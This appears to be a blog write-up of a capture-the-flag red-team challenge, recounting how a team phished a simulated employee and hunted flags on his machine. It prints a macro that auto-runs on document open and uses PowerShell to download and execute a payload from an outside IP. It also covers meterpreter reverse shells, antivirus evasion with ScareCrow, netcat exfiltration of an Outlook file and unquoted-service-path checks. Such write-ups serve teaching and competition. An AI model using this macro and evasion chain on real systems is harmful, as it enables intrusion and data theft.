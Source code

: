 ```yaml
---
title: "ABC CTF Challenge"
date: 2021-08-28T03:09:07-03:00
draft: false
cover: "images/abcctf/2021_cybersecurity"
blogs: ["CTF_Challenges"]
---
```


## ABC CyberHackathon RedTeam CTF

[![CY3ER-R4T](https://cyberrat.medium.com/)
## **INTRODUCTION**

My team RedTeamNG recently came first in the The American Business Council Cybersecurity Hackathon 2021 organized by ctf.ng and major sponsors bothering from American Business Council,Microsoft,AWS, Cisco, Comercio, HP, IBM and others

This write up would be focused only on the finals and specifically the RedTeam challenges running through the methodology used to tackling it,  
other post by my team mate [Muzec](https://muzec0318.github.io/posts/abcctf.html)would be covering the Web Challenges.

## **SCENARIO**

The scenario we are presented with by the organizers is that of an Fat Fingered individual that unconsciously opens every email and attachment he gets in he’s corporate email : [obiora\_nurudeen@ctf.ng](http://mailto:obiora_nurudeen@ctf.ng)

{{< figure src="/images/abcctf/scenario.png">}}

Armed with just he’s name Nurudeen Obiora, the email above and the knowledge of the targets low awareness in basic email security,  
we thought of emulating a strategy we recently used at the DEFCON 29 RedTeam CTF by sending the target an email with the reverse shell payload attached.

Now here is where the problem begins, as with almost every field: There is a race, race between Good and Bad, Positive and Negative  
our intentions are of no good so every mechanism of security is against us which is a “replica” of a real life situation

**1st attempt:** _Sending an msfvenom payload + gmail_  
Using msfvenom we created a windows reverse shell payload


{{< figure src="/images/abcctf/msfvenom.gif">}}

Attempting to send it to the target using swaks  
swaks : SWiss Army Knife Smtp

we are immediately flagged as malicious by Gmails Egress Malware Scanner

{{< figure src="/images/abcctf/egress-gmail.gif">}}

**2nd attempts:** We resulted into trying several empire powershell payload and bypasses, Persian Hydra Xor encryption with Custom keys, EgeBalci/sgn Shikata\_ga\_nai encoder, All to no avail

{{< figure src="/images/abcctf/head-boom.gif">}}

**Final attempt:** After numerous swift and failed attempt, we remembered Matthew Eidelberg talk at SourceZero Con : Remaining Invisible in the Age of EDR, a talk which showcase the ability to bypass defenses with a term called DLL unhooking using the ScareCrow Binary

In short, we can generate some raw shellcode from the software of our choice (Cobalt Strike, Metasploit, PoshC2, etc) and pass it to the Scarecrow to get a loader back that will implement some common EDR evasion techniques.

we decide to create a create a `windows/x64/meterpreter\reverse\tcp` shellcode using msfvenom \[msfvenom shellcode is a pain, its crappy and might be unstable at times\]
{{< figure src="/images/abcctf/msfvenom.gif">}}

then pass the raw shellcode to the scarecrow binary along with a random domain name for a cloned signed certificate

{{< figure src="/images/abcctf/scarecrow.png">}}

we then created a meterpreter listener using the connection variable of the shellcode as options: “would have preferred Cobalt-strike but its for the BigBoys like InfosecShinobi 🙂”

## **DELIVERY**

The output of ScareCrow is an obfuscated .exe payload, being at the third stage of the “cyber attack cycle” which is delivery  
we somehow need to get the payload the victim machine and “run” it

We decided to use the old aged Microsoft Word Document with macro in the .docm extension,  
the function of the macro was to run a powershell one-liner that downloads the payload \[Powerpnt.exe\] binary hosted on our machine, store it in C:\\windows\\temp\\ and then run it

> Sub Document\_Open()  
> MyMacro  
> End Sub
> 
> Sub AutoOpen()  
> MyMacro  
> End Sub
> 
> Sub MyMacro()  
> Dim str As String  
> str = “powershell iwr -uri [http://x.x.x.x/](http://20.87.43.15/OutLook.exe)Powerpnt.exe -o c:\\windows\\temp\\Powerpnt.exe; c:\\windows\\temp\\Powerpnt.exe”  
> GetObject**(**“winmgmts:”**)**.Get**(**“Win32\_Process”**)**.Create str, Null, Null, pid  
> Shell str, vbHide  
> End Sub


{{< figure src="/images/abcctf/macro.png">}}

## **WEAPONIZATION**

Weaponized the final email and sent the .docm to the target by gmail

{{< figure src="/images/abcctf/weapon-email.png">}} 

Tick! tock! Tick! tock!  
Itchy finger Nurudeen opens the malicious document with the payload sending us a meterpreter session on our VPS \[wish it was cobalt strike, somebody buy us cobalt strike already!!\]

{{< figure src="/images/abcctf/meterpreter.png">}} 

Now the hunt for flags begin, which literally means _ENUMERATION_  
checking to see what the internal IP looks like, we find the user IP address we we already solved the unintended way by checking the header of the response email`\[FLAG8\]`

{{< figure src="/images/abcctf/header.png">}}

checking the current user directory and finding `unattend.xml` that contains `\[FLAG4\]`

{{< figure src="/images/abcctf/ctf_xml.jpeg">}}

curious about what local users are on the machine just to get an idea of what movement of privilege escalation was necessary, lateral or horizontal  
we find two more flags `\[FLAG3\]` `\[FLAG5\]`


{{< figure src="/images/abcctf/net_user.jpeg">}}

One of the challenges goes by the name “Registry Never Lies” which immediately prompted us to query the registry table to find \[FLAG2\]

{{< figure src="/images/abcctf/regq.jpeg">}}


The what seems to be easy challenge turned to a battle “Outlook Storage 150points”, as most application data are stored in %APPDATA% we dived into it to get our hands on the loot after a quick research we figure the ost file is the microsoft outlook data bucket trying to transfer the file using the netcat binary, it failed cause the file was currently locked with the outlook process.

We proceeded to killing the process and sending the OST to our local machine with netcat

{{< figure src="/images/abcctf/task_kill.jpeg">}}

Converting the ost with the steller converter we find `\[FLAG1\]`

{{< figure src="/images/abcctf/steller.png">}}

After running out of flags to find, it was time for horizontal privilege escalation

## **LATERAL PRIVILEGE ESCALATION  
Machine Misconfigured with an Unquoted Service Path**

Sometimes it is possible to escalate privileges by abusing mis-configured services. Specifically, this is possible if path to the service binary is not wrapped in quotes and there are spaces in the path..  
If you are using a long file name that contains a space, use quoted strings to indicate where the file name ends and the arguments begin; otherwise, the file name is ambiguous.

For example, consider the string “c:\\program files\\safe software\\enjoy.exe”. This string can be interpreted in a number of ways.  
The system tries to interpret the possibilities in the following order:

**c:\\program.exe**  
**c:\\program files\\safe.exe**  
**c:\\program files\\safe software\\enjoy.exe**

if any of the directory along the path is writable and said service is running with system privileges then this misconfiguration is easily exploitable

we can enumerate and find Unquoted Service Path by using the wmic command `wmic service get name,pathname`

we can aswell check to see if the service is running with system privileges still by using wmic `wmic service get pathname,startname`


{{< figure src="/images/abcctf/servicepath.png">}}

> **END OF PART ONE**
>#### The difference between a noob and a hacker is that a hacker has failed more than a noob has ever tried


[[params.social]]
  name = "linkedin"
  url = "<profile_URL>"

[[params.social]]
  name = "twitter"
  url = "<profile_URL>"
